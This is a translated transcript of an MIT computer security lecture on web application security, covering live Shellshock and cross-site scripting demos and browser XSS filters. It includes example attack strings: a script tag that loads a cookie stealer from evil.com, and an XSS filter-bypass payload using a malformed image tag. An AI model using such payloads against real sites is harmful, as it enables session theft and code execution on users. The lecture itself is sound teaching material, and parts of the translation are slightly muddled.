Курс MIT «Безопасность компьютерных систем». Лекция 9: «Безопасность Web-приложений», часть 1 / Блог компании ua-hosting.company

### Массачусетский Технологический институт. Курс лекций #6.858. «Безопасность компьютерных систем». Николай Зельдович, Джеймс Микенс. 2014 год

Computer Systems Security — это курс о разработке и внедрении защищенных компьютерных систем. Лекции охватывают модели угроз, атаки, которые ставят под угрозу безопасность, и методы обеспечения безопасности на основе последних научных работ. Темы включают в себя безопасность операционной системы (ОС), возможности, управление потоками информации, языковую безопасность, сетевые протоколы, аппаратную защиту и безопасность в веб-приложениях.

Лекция 1: «Вступление: модели угроз» [Часть 1](https://habr.com/company/ua-hosting/blog/354874/) / [Часть 2](https://habr.com/company/ua-hosting/blog/354894/) / [Часть 3](https://habr.com/company/ua-hosting/blog/354896/)  
Лекция 2: «Контроль хакерских атак» [Часть 1](https://habr.com/company/ua-hosting/blog/414505/) / [Часть 2](https://habr.com/company/ua-hosting/blog/416047/) / [Часть 3](https://habr.com/company/ua-hosting/blog/416727/)  
Лекция 3: «Переполнение буфера: эксплойты и защита» [Часть 1](https://habr.com/company/ua-hosting/blog/416839/) / [Часть 2](https://habr.com/company/ua-hosting/blog/418093/) / [Часть 3](https://habr.com/company/ua-hosting/blog/418099/)  
Лекция 4: «Разделение привилегий» [Часть 1](https://habr.com/company/ua-hosting/blog/418195/) / [Часть 2](https://habr.com/company/ua-hosting/blog/418197/) / [Часть 3](https://habr.com/company/ua-hosting/blog/418211/)  
Лекция 5: «Откуда берутся ошибки систем безопасности» [Часть 1](https://habr.com/company/ua-hosting/blog/418213/) / [Часть 2](https://habr.com/company/ua-hosting/blog/418215/)  
Лекция 6: «Возможности» [Часть 1](https://habr.com/company/ua-hosting/blog/418217/) / [Часть 2](https://habr.com/company/ua-hosting/blog/418219/) / [Часть 3](https://habr.com/company/ua-hosting/blog/418221/)  
Лекция 7: «Песочница Native Client» [Часть 1](https://habr.com/company/ua-hosting/blog/418223/) / [Часть 2](https://habr.com/company/ua-hosting/blog/418225/) / [Часть 3](https://habr.com/company/ua-hosting/blog/418227/)  
Лекция 8: «Модель сетевой безопасности» [Часть 1](https://habr.com/company/ua-hosting/blog/418229/) / [Часть 2](https://habr.com/company/ua-hosting/blog/423155/) / [Часть 3](https://habr.com/company/ua-hosting/blog/423423/)  
Лекция 9: «Безопасность Web-приложений» [Часть 1](https://habr.com/company/ua-hosting/blog/424289/) / [Часть 2](https://habr.com/company/ua-hosting/blog/424295/) / [Часть 3](https://habr.com/company/ua-hosting/blog/424297/)

Давайте начнем вторую лекцию нашей потрясающей серии рассказов о веб-безопасности. Я бы хотел сразу перейти к быстрой демонстрации примеров, так как вы знаете, что наши демо-ролики почти никогда не работают. Надеюсь, что сегодня вы не увидите пустой экран.

Основная идея заключается в том, что я сначала бы хотел показать вам пример ошибки Shellshock, о которой, вы, возможно, уже слышали. Это была довольно популярная тема в литературе по компьютерной безопасности.

Люди дают ошибке Heartbleed максимальную оценку по шкале опасности — 10 из 10. Они считают, что это самая опасная ошибка, от которой должна защищать система безопасности. Я подумал, что будет отличной идеей показать вам живую историю этого вопроса, которую вы сможете пересказать своим родителям, чтобы они поняли, что обучение в Массачусетском технологическом институте стоит своих денег.

Итак, какова основная идея ошибки Shellshock? Это действительно отличный пример того, почему так трудно создать безопасные веб-приложения, которые охватывают несколько технологий, несколько языков, несколько ОС, так далее и так далее. Поэтому основная идея заключается в том, что Shellshock использует то, что злоумышленник может создать специальный http-запрос к серверу и управлять заголовками в этом запросе. На доске я записал очень простой пример.  
Предположим, злоумышленник хочет отправить запрос GET некоторому интерфейсу CGI на тему поиска кошек, потому что это именно то, что люди всегда ищут в интернете (шутка). Поэтому здесь будет знак вопроса, и какой-то стандартный заголовок хоста с URL-адресом, например, example.com:

GET /querry.cgi? search = cats  
Host: example.com  
Custom – header: Custom — value

Теперь обратите внимание, что злоумышленник может также указать пользовательские заголовки. Например, я хочу найти какой-то специфичный для приложения заголовок под названием Custom-header указать там некоторое значение Custom — value, потому что веб-приложение может определить некоторые функциональные возможности, которые нельзя выразить с помощью простых предопределенных заголовков HTTP. Так что пока все это кажется довольно безобидным.  
Но в конечном итоге происходит то, что многие из этих веб-серверов для обработки CGI скриптов будут фактически принимать эти пользовательские значения заголовка Custom — value и использовать их для установки переменных среды Bash. То есть они будут использовать этот заголовок Custom-header для создания пользовательского заголовка имени переменной Bash, они возьмут это значение Custom — value, которое предоставил злоумышленник, и используют его как значение переменной Bash. Как только эта переменная будет установлена, сервер CGI сделает некоторую обработку контекста этой среды.

И это плохо, потому что веб-серверы не должны принимать произвольные значения из этих случайных «грязных» вещей. Таким образом, в конкретном примере ошибки Shellshock происходит то, что если вы придадите переменной Bash некое злонамеренное значение, может начаться форменное безумие.



В принципе, это злонамеренное определение функции выбирается в языке сценариев Bash, и вас не должна беспокоить специфика этого процесса. Но дело в том, что если бы параметр Bash был задан правильно, эта часть /bin/id не была бы выполнена. Так что вы только что определили некую глупую функцию, которая ничего не делает и прекращает процесс выполнения запроса.

Однако эта последовательность символов путает парсер Bash, он как бы спотыкается об эту ерунду, расположенную после слеша. А потом он говорит: «о, я мог бы продолжить анализировать и выполнять здесь некоторые команды, не так ли?». И в данном случае он просто выполняет команду bin/id, которая отображает некоторую информацию о пользователе. Но суть уязвимости в том, что вместо bin/id здесь можно поместить абсолютно любой код!

Я приведу очень простой пример, который вы увидите на экране. Это очень простой сервер Python, самый простой, какой можно представить. Я использую здесь метод GET. Этот метод означает перебор всех HTTP заголовков в запросе.





Здесь в заголовке у нас имеется значение для переменной K и значение для запроса V. В этом случае GET просто распечатывает заголовки, которые находит.

А затем он собирается сделать что — то очень глупое — выполнить системный вызов и установить значение оболочки непосредственно на значение, указанное в заголовке. Так что в этом заключается весь корень уязвимости.

Если я перейду на следующую вкладку и запущу веб-сервер жертвы, то мы видим, что он готов принять запросы.



Затем я могу написать свой особый клиент Shellshock – он расположен на следующей вкладке.



На самом деле это довольно просто — я просто определяю одну из этих вредоносных строк attack.str, поэтому у неё вначале расположены такие «кривые» величины. А далее я просто знаю, что на стороне сервере всё теперь будет выполняться по моей воле.

В данном случае я использовал нечто безобидное – echo «Я владею твоей машиной». Но здесь может быть что угодно. Можно запустить ещё одну оболочку Bash с параметром «echo ATTACKER CMD», то есть реальную команду атакующего, что может быть очень опасно.

Итак, я устанавливаю заголовки и запрос пользователя, а затем просто использую Python для создания HTTP соединения и просто посылаю его серверу. Так что в итоге происходит? Я выполняю здесь свой клиент Shellshock.



Вы видите, что здесь появилась ошибка 404, потому что не имеет значения, какой файл я запросил, я просто вставляю сюда какой-то индекс, несуществующий HTML. Но если посмотреть сюда, на вторую вкладку, где у нас показан веб-сервер жертвы, согласившийся на соединение через порт 8282, то мы увидим, что он принял мои сообщения «Я владею твоей машиной» и ATTACKER CMD.



Потому что как только сервер жертвы получил этот заголовок, он тут же установил значения переменной Bash, и вследствие этого запустилась команда ATTACKER CMD. Это понятно?

**Аудитория:** так это происходит, если программа запускается с таким заголовком?

**Профессор:** да. Таким образом, специфика того, как работает атака, зависит от того, как выглядит ваш веб-сервер, например, работаете ли вы с Apache или нет. Этот пример немного надуманный, поскольку я на самом деле создал другую оболочку Bash, установил переменную оболочки и только после этого запустил процесс. Но можно представить, что если бы вы создавали другие процессы для каждого входящего соединения, вы могли бы установить переменную среды напрямую.

**Аудитория:** таким образом, если вернуться к коду веб-сервера, то покажется, что существует намного худшая уязвимость, чем Shellshock. Потому что можно совершить системный вызов и выполнить команду, просто установив пользовательский заголовок на что-то другое, и мне не пришлось бы использовать ошибку Shellshock в данном примере.

**Профессор:** да, правильно, в этом конкретном веб-сервере, который я написал только для примера, есть вещь, которой ни за что нельзя доверять. Но если бы здесь у нас был не Python, а Apache, то можно было бы непосредственно установить значение среды для какой-либо конкретной службы с помощью параметра set nth. Но существуют такие серверы, как этот, которые создают отдельный процесс и делают что-то, очень похожее на приведённый пример.

Еще один пример, который я хотел вам привести, это пример межсайтового скриптинга. Ошибка Shellshock была своего рода примером, насколько важна дезинфекция контента. Мы обсудили то, что вы не должны просто принимать входные данные от случайных людей и использовать их непосредственно в командах любого типа.

Межсайтовый скриптинг является ещё одним примером, показывающим, почему что-то может пойти не так. В этом примере у меня есть еще один простенький CGI сервер, написанный на Python.



Это дескриптор, который выполняется при поступлении запроса от клиента. Я напечатал здесь некоторые заголовки для ответа, и мой ответ будет текстовым HTML. Как выясняется, браузеры имеют некоторые механизмы безопасности, чтобы попытаться предотвратить атаку, которую я собираюсь вам показать. Поэтому я сделал так, чтобы отключить некоторые из механизмов этой защиты, поместив эту строку заголовка в начале.

Затем скрипт CGI получает доступ ко всем полям и запросам CGI, начиная со строки form=cgi.FieldStorage (). Представьте себе, что всё, что расположено в строке после этого вопросительного знака, представляет собой заголовок и параметры нашего примера:

GET /querry.cgi? search = cats  
Host: example.com  
Custom – header: Custom — value

Далее скрипт cgi делает совсем простую вещь — он сразу печатает значение чего-то, что пришло от атакующего. Тут та же основная идея, и это плохая идея, потому что эта функция print печатает полученное значение непосредственно в сам HTML.

Здесь может произойти следующее. Предположим, у меня есть куча запросов, которые я хочу запустить. В этом первом запросе я просто устанавливаю значение сообщения равным Hello, то есть перехожу по адресу первой строчки.



Поэтому, если я перейду на свою страницу, то увижу на ней слово hello, потому что сервер принимает непосредственно то, что я ему передаю, и печатает «привет». Так что никаких сюрпризов.



Я понимаю, что действительно могу передать туда произвольный HTML код, и если я установлю формат заголовка h1, то есть перешлю на сервер вторую строчку, оканчивающуюся на hello , оно изменится и на странице – видите, стиль слова изменился на стиль заголовка h1. Так что это работает, я впечатываю величины прямо в страницу.

Отлично, теперь мы в деле, и это круто. Теперь давайте просто добавим код JavaScript, то есть запустим в браузере третью заготовленную мной строку, куда вставлен некий сценарий , который запускается после параметра alert («XSS»).

Итак, теперь мы видим пустой экран. Создаётся впечатление, что у нас ничего не получилось, потому что не видно никаких выходных данных, и я не заметил никаких предупреждений.



Но если я посмотрю на выходные данные веб-сервера, то увижу, что сам веб-сервер на самом деле не получил этот завершающий тег скрипта. Похоже, что сам браузер каким-то образом обнаружил что-то злое, хотя я пытался отключить XSS-фильтр. Так что это довольно интересно. Позже мы подробнее рассмотрим этот механизм защиты, а пока что я отмечу, что браузер пытается противостоять атаке межсайтового скриптинга.

Но ведь можно воспользоваться тем фактом, что HTML, CSS и JavaScript чрезвычайно сложные языки, и они написаны сложным для понимания способом. Я воспользуюсь этим и использую последнюю, четвёртую строку своей записи, разместив её в адресной строке браузера. Это атакующая строка, содержащая неправильный URL. Она включает в себя URL картинки &lt;IMG“””&gt; и тег сценария ”> и на самом деле не может подвергнуться разбору. Поэтому при получении такой строки браузер просто запутается и выдаст на экран информацию: «Страница по адресу 127.0.0.1:8282 говорит: XSS». Таким образом, встроенное обнаружение межсайтовых сценариев на самом деле не работает.

Если мы щелкнем кнопку «OK», у нас появится просто пустая страница. Но если посмотреть на её содержимое, мы увидим непонятные кавычки и скобки, которые взялись неизвестно откуда.



Однако с точки зрения злоумышленника испорченная страница не имеет значения, потому что мы видели предупреждение, а это означает, что код был запущен. И он мог быть использован для того, чтобы украсть кукиз или сделать что-то подобное.

**Аудитория:** а что такое межсайтовый аспект?

**Профессор:** межсайтовый аспект заключается в том, что если злоумышленник может убедить пользователя перейти на URL-адрес, такой как в этом примере, то он и является тем лицом, которое определяет содержание сообщения. Это именно он создаёт предупреждение XSS или что-то в этом роде. По сути, происходит то, что страница жертвы выполняет код от имени кого-то, кто не распоряжается этой страницей.

Итак, я показал вам две быстрые демонстрации «грязного» мира, в котором мы обитаем. Так почему же межсайтовый скриптинг настолько распространен? Почему эти проблемы так важны? Причина в том, что веб-сайты становятся все более и более динамичными, и они хотят размещать множественный пользовательский контент или включать контент из других доменов. Подумайте, например, о разделе комментариев к новостной статье, эти комментарии исходят от ненадежных людей — от пользователей. Так или иначе, эти сайты должны выяснить, каковы правила комбинации таких вещей.

Веб-сайты могут содержать пользовательские документы, например документы Google или Office 365. Все эти документы исходят от ненадежных людей, но каким — то образом они должны уживаться друг с другом и с большой инфраструктурой Google или Microsoft.

Какие же типы межсайтовых сценариев защиты мы можем использовать? Один тип такой защиты представляет собой фильтры межсайтового скриптинга в самом браузере. Эти фильтры будут пытаться обнаружить возможные атаки с использованием межсайтовых сценариев. И мы увидели один из таких фильтров в действии – это был третий пример сценария, который мы рассмотрели.  
Предположим, у вас есть URL-адрес [foo.com/?q=](http://foo.com/?q=)&lt;script src= “evil.com/cookie stealer.js”&gt;. То есть этот адрес запускает сценарий, который перенаправляет пользователя на вредоносный сайт и крадёт у него кукиз.



Так вот, браузер откажется его выполнять и этот приём злоумышленника не сработает. Причина проста – браузер просто проверил, нет ли встроенного тега `<script>` в этом адресе URL и обнаружив его, запретил переход по данной ссылке. Таким образом, это очень простая эвристика для выяснения, не происходит ли чего-то вредоносного, потому что ни один нормальный разработчик не станет помещать в адрес такие вещи. Вы можете настроить параметры конфигурации браузера на включение и выключение подобных вещей. Иногда это полезно для тестирования, если вы просто хотите быстро и без особой проверки ввести некоторые данные JavaScript. Но обычно такая проверка в браузере включена по умолчанию.

Например, Chrome и IE имеют встроенный фильтр, который смотрит на значение URL в адресной строке и ищет подобные вещи. И если они там присутствуют, то браузер, возможно, попытается их полностью удалить или сделать источник внутри <> пустым. Существуют множество способов эвристического анализа, на основе которых браузеры должны определять такие вещи. И если вы посмотрите на сайт OWASP, то там собраны примеры использования такой эвристики для обнаружения межсайтовых сценариев и примеры того, как можно обойти этот фильтр.

Вы знаете, это было очень смешно, потому что сначала в качестве примера для нашей лекции я сделал что-то подобное этому, и оно не сработало. Тогда я заглянул в шпаргалку OWASP и нашёл там четвёртый вариант, который сработал, это был пример со сломанным разбором адреса изображения img.

Итак, основная проблема, не позволяющая просто полагаться на встроенные фильтры браузеров, заключается в том, что есть много разных способов заставить CSS и HTML-парсеры разобрать какое-то содержимое неверным способом. Так что встроенные решения не идеальны, они не перекрывают все уязвимости.

**Аудитория:** но ведь проверять такие вещи не входит в обязанность браузера?

**Профессор:** я имею в виду случай, когда браузер находится на прокси-сервере, и прокси выполняет нечто, показанное в этом примере. То есть встроенные фильтры имеют смысл, потому что внутри браузера может находиться множество парсеров, и эти фильтры применяются для защиты слоёв обработчиков внутри браузера.

**Аудитория:** я думаю, можно сказать, что это обязанность веб-разработчика, а не пользователя – проверять подобные вещи.

**Профессор:** в определенном смысле, мы могли бы сказать, что в Unix или Windows тоже имеются процессы, о корректности которых должен заботиться разработчик софта, а не пользователь, и разработчик должен делать так, чтобы эти штуки оставались изолированными. Но на самом деле ОС и аппаратное обеспечение также играет важную роль, потому что иначе нельзя было бы доверять любым программам, сделанным случайными разработчиками. Но в принципе вы правы. В действительности такие фреймворки, как Django или что-то подобное пытаются помочь вам обойти некоторые из этих проблем.

Так или иначе, фильтры не являются идеальным решением и не могут предотвратить то, что известно как устойчивые, или постоянные межсайтовые скриптовые атаки, persistent XSS. Это вид некоего отражения, потому что код скрипта просто «живет» в URL. Как только пользователь закрыл этот URL, атака закончилась.

